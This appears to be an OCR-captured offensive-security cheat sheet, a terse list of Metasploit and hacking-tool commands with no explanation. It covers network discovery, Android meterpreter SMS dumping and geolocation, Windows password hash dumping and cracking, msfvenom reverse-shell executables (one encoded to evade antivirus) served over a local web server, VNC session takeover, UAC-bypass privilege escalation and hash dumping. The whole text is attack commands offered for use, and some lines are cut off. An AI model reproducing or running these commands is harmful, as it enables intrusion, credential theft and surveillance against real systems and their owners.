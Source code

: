 # netdiscover
ifconfig
netdiscover -i eth0
netdiscover -i eth0 -r ip/24

# android
msf > android/meterpreter
dump_sms
geoloca

# msf hardware
msf > use auxiliary/server/local_hwbridge
msf > use auxiliary/client/hwbridge/connect

# Win password dump + ophcrack
pwdump7.exe > c:\hashes.txt
ophcrack.exe install tables (vista free) | crack

# vuln VNC session
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=your_ip LPORT=4444 -o Rev_shell.exe
python3 -m http.server 8888
msf > use multi/handler
msf > set payload windows/meterpreter/reverse_tcp
meterpreter > sysinfo && run vnc

# another vuln
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=your_ip LPORT=4444 -f exe > Exploit.exe
# priv escal
getsystem -t 1
use exploit/windows/local/bypassuac_fodhelper
run post/windows/gather/smart_hashdump

# stego
openstego.exe > extract data
quickstego.exe 

# fatrat
